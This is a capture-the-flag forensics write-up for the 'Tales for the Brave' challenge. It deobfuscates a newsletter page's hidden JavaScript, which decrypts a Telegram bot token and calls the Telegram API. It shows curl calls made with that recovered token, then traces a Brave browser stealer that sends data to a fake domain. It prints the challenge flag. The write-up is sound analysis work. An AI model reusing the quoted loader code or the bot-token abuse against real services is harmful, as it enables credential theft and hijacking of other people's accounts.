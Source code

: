 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Tales for the Brave Writeup
desc: Check out our writeup for Tales for the Brave for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Tales for the Brave
tags: "forensics, twh, javascript, obfuscation, api, win32pe, wireshark"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```




> Solved by thewhiteh4t


- This was an interesting one because we were given a website as the starting point
- Looking at the source code, we can see `index.js` is loaded, contents :


![](https://i.imgur.com/JCKcHuS.png)

- So the JavaScript is obfuscated and uses `CryptoJS`, we can use an online deobfuscator : 


![](https://i.imgur.com/XjIy88q.png)

- Another better alternative is to use debugger in the browser, using debugger is simple, just open tools, click on debugger, hit pause and submit the form and the decoded JavaScript is revealed : 


![](https://i.imgur.com/bLswUQG.png)

- I copied this code into a `.js` file and cloned the website as well :

```
> cat index.html
<!DOCTYPE html>
<html lang="en"><head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Newsletter Signup</title>
  <link rel="stylesheet" href="index.css">
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>
</head>
<body>
  <div class="newsletter">
    <div class="image-section">
      <img src="img/storytellingEldoriaMyths.png" alt="Rings">
    </div>
    <div class="form-section">
      <h1>Tales of Eldoria: Stories of Magic and Bravery for the Young and Curious</h1>
      <p>In the mystical lands of Eldoria, where dragons soar and ancient magic pulses through the air, storytelling is more than just a pastime—it's a tradition that bridges generations. Imagine a magical evening where children gather around glowing crystal orbs, listening to the mesmerizing myths and legends of Eldoria. These tales teach courage, friendship, and the magic of harmony.</p>
      <form id="newsletterForm">
        <input type="email" id="email" placeholder="Email">
                <input type="text" id="descriptionField" placeholder="Description">
        <div class="checkbox-group">
          <p>The newsletter offers:</p>
          <label><input class="cb" id="c1" type="checkbox"> Legends of Dragons</label>
          <label><input class="cb" id="c2" type="checkbox"> Ancient Magic</label>
          <label><input class="cb" id="c3" type="checkbox"> Adventures of Heroes</label>
          <label><input class="cb" id="c4" type="checkbox"> Eldoria Myths</label>
        </div>
        <div class="buttons">
            <button type="submit" data-node-outlined="false" class="button primary">SUBMIT</button>
        </div>
      </form>
    </div>
  </div>
  <script src="./decrypted.js"></script>


</body></html>
```

- After some inspection I noticed an interesting variable `_$_5975` and how it was used :

```
function f(oferkfer, icd) { const channel_id = -1002496072246; var enc_token = _$_5975\\[0]; if (oferkfer === G(_$_5975[1]) && CryptoJS[_$_5975[7]\](sequence[_$_5975[6]](_$_5975[5]))\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[2]]) === _$_5975\\[8]) { var decrypted = CryptoJS[_$_5975[12]\][_$_5975[11]\](enc_token, CryptoJS\[_$_5975[3]\][_$_5975[9]]\[_$_5975[10]](oferkfer), { drop: 192 })\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[9]]); var HOST = _$_5975\\[13] + String[_$_5975[14]\](0x2f) + String\[_$_5975[14]\](0x62) + String\[_$_5975[14]\](0x6f) + String\[_$_5975[14]\](0x74) + decrypted; var xhr = new XMLHttpRequest(); xhr\[_$_5975[15]] = function () { if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) { const resp = JSON[_$_5975[10]\](xhr[_$_5975[18]]); try { const link = resp\[_$_5975[20]\][_$_5975[19]]; window\[_$_5975[23]\][_$_5975[22]\](link) } catch (error) { alert(_$_5975\[24]) } } }; xhr[_$_5975[29]\](_$_5975[25], HOST + String[_$_5975[14]](0x2f) + _$_5975\[26] + icd + _$_5975[27] + channel_id + _$_5975[28]); xhr[_$_5975[30]\](null) } else { alert(_$_5975[24]) } }
```

- It's an array and multiple items from the array were being used, so I decided to print the array, by adding a small loop : 

```
for (var i = 0; i < 31; i++) {
    console.log(i, _$_5975[i])
}
```

![](https://i.imgur.com/saOoRYc.png)

- As we can see, some encoded strings, parts of a URL, telegram and most importantly `RC4Drop` which is a type of cipher available in `CryptoJS`
- After this I substituted the values according to array index and ended up with the following :

```
if (oferkfer === G('s3cur3k3y') && CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=') {
        var decrypted = CryptoJS.RC4Drop.decrypt(enc_token, CryptoJS.enc.Utf8.parse(oferkfer), {
            drop: 192
        }).toString(CryptoJS.enc.Utf8);
        var HOST = 'https://api.telegram.org' + String.fromCharCode(0x2f) + String.fromCharCode(0x62) + String.fromCharCode(0x6f) + String.fromCharCode(0x74) + decrypted;

        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                const resp = JSON.parse(xhr.responseText);
                try {
                    const link = resp.result.text;
                    window.location.replace(link)
                } catch (error) {
                    alert('Form submitted!')
                }
            }
        };
        console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
        xhr.open('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5');
        //xhr.send(null)
    } else {
        alert('Form submitted!')
    }
```

- Decryption block is executed if the condition is satisfied : 

```
oferker -> email before @tld
G('s3cur3k3y') -> 0p3r4t10n_4PT_Un10n
```

- So the email to satisfy the condition should be `0p3r4t10n_4PT_Un10n@abc.com` but since the script is running locally we can simply bypass the conditions
- In the end the code block sends a GET request, so I inspected the URL : 

```
console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')

GET https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=NaN&from_chat_id=-1002496072246&message_id=5 decrypted.js:128:17
```

- So the telegram API is being called, and we get the following things : 

```
Bot ID : bot7767830636
Bot token : AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc
chat_id : Null
from_chat_id : -1002496072246
message_id : 5
```

- `forwardMessage` does exactly what the name suggests, it will forward a message from one chat to another, but some requirements need to be fulfilled for this to happen : 

```
Bot should be present on both chats
```

- But in the URL we can see that `chat_id` is missing, so we will make our own by creating a `group` in telegram, and then we can add the bot to our group
- But we don’t know the name of the bot, to solve this there is another endpoint we can call : 

```
> curl -s 'https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/getMe' | json_pp

{
   "ok" : true,
   "result" : {
      "can_connect_to_business" : false,
      "can_join_groups" : true,
      "can_read_all_group_messages" : false,
      "first_name" : "OperationEldoriaBot",
      "has_main_web_app" : false,
      "id" : 7767830636,
      "is_bot" : true,
      "supports_inline_queries" : false,
      "username" : "OperationEldoriaBot"
   }
}
```

- After adding the bot to our group we can iterate from message IDs `1 - 10` to get all the messages : 


![](https://i.imgur.com/1b1xrhh.png)



- We got a zip file which contains a tool that targets Brave browser, inside the zip is a windows PE file
- Time for dynamic analysis, after using `Process Explorer, Process Monitor` etc. I finally checked `WireShark` for network activity because a browser stealer is expected to send the information
- And a single DNS query popped up : `z0lsc2S65u.htb` which obviously does not exist
- So I did the following :

```
Added the domain in windows Hosts file
Started a PHP server on my other box on port 31337 as seen in wireshark
Launched Brave.exe again
```

![](https://i.imgur.com/Iaaj6RH.png)



- And we get a POST request to our server


![](https://i.imgur.com/LTALsWD.png)



- JSON data was being sent but more interestingly there was a `Authorization` header with JWT :


![](https://i.imgur.com/vTH0E4n.png)

- Double base64 encoded flag : 

```
HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}
```
